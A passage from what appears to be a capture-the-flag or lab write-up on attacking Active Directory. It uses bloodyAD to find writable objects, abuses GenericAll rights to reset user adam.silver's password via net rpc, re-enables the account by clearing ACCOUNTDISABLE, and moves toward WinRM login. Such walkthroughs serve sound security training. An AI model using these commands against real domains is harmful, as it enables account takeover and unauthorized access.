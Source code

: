 ```bash
bloodyAD -d $DOMAIN --host $IP -u $USERAD -p $PASS get writable
```

![Advanced LDAP Enumeration](file-20250806141733921.png)

**Key Finding:** We now have `GenericAll` permissions over user `adam.silver`, which includes:
- **Write Dacl:** Can modify access control lists
- **Write Owner:** Can change object ownership
- **Write:** Can modify object properties

### ACL Abuse - Password Reset

With `GenericAll` permissions over `adam.silver`, we can change the user's password:

```bash
net rpc password "adam.silver" 'Antman2025!' -U "$DOMAIN"/"$USERAD"%"$PASS" -S $IP
```

![Password Reset Success](file-20250806134348793.png)

**Command Explanation:**
- `net rpc password`: Changes a user's password via RPC
- `"adam.silver"`: Target user account
- `'Antman2025!'`: New password
- `-U`: Authentication credentials
- `-S`: Target server

### Account Re-enablement

The account might be disabled, so we need to enable it:

![Account Disabled Status](file-20250806134455493.png)

We can enable the account by removing the `ACCOUNTDISABLE` flag:

```bash
bloodyAD -d $DOMAIN --host $FQDN -u $USERAD -p $PASS remove uac -f ACCOUNTDISABLE adam.silver
```

**Result:**
```bash
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

**Command Explanation:**
- `remove uac`: Removes User Account Control flags
- `-f ACCOUNTDISABLE`: Specific flag to remove
- `adam.silver`: Target user account

### WinRM Access

Now we can authenticate with the newly enabled account:

![WinRM Authentication](file-20250806134604472.png)
